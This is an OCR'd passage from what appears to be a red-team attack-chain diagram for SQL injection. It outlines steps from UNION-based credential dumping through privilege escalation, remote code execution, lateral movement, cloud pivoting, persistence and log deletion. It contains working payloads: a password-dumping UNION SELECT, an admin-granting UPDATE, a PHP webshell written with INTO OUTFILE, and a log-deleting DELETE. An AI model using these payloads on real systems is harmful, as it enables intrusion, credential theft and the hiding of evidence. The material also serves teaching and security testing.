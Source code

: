 &nbsp;          └─► UNION SELECT username, password FROM users

&nbsp;          └─► Blind SQLi (boolean/time-based inference)



\[6] Privilege Escalation

&nbsp;    └─► Modify user roles or inject new admin

&nbsp;          └─► UPDATE users SET is\_admin=1 WHERE username='guest'

&nbsp;          └─► INSERT INTO users (...) VALUES (...)



\[7] Remote Code Execution (RCE)

&nbsp;    └─► Write to file or abuse DB functions

&nbsp;          └─► MySQL: SELECT "<?php system($\_GET\['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'

&nbsp;          └─► MSSQL: xp\_cmdshell 'powershell reverse shell'



\[8] Lateral Movement

&nbsp;    └─► Access other services using stolen credentials

&nbsp;          └─► SSH, SMB, admin panels, internal APIs

&nbsp;          └─► Pivot to other DBs or machines



\[9] Cloud \& Infra Pivoting

&nbsp;    └─► Exfiltrate API keys (AWS, GCP, Azure) or secrets

&nbsp;          └─► SELECT \* FROM env WHERE key LIKE '%key%'

&nbsp;          └─► Access cloud storage (S3, buckets, RDS)

&nbsp;          └─► Exploit misconfigured services (Redis, Jenkins, Docker)



\[10] Persistence

&nbsp;    └─► Create backdoor accounts

&nbsp;          └─► INSERT INTO users (admin) ...

&nbsp;    └─► Set scheduled jobs or cron tasks

&nbsp;          └─► Inject reverse shell into cron or task scheduler

&nbsp;    └─► Webshell deployment or DB triggers



\[11] Cleanup (Optional in red team or stealth testing)

&nbsp;    └─► Remove logs, drop shell, disable accounts

&nbsp;          └─► DELETE FROM logs WHERE user='attacker'
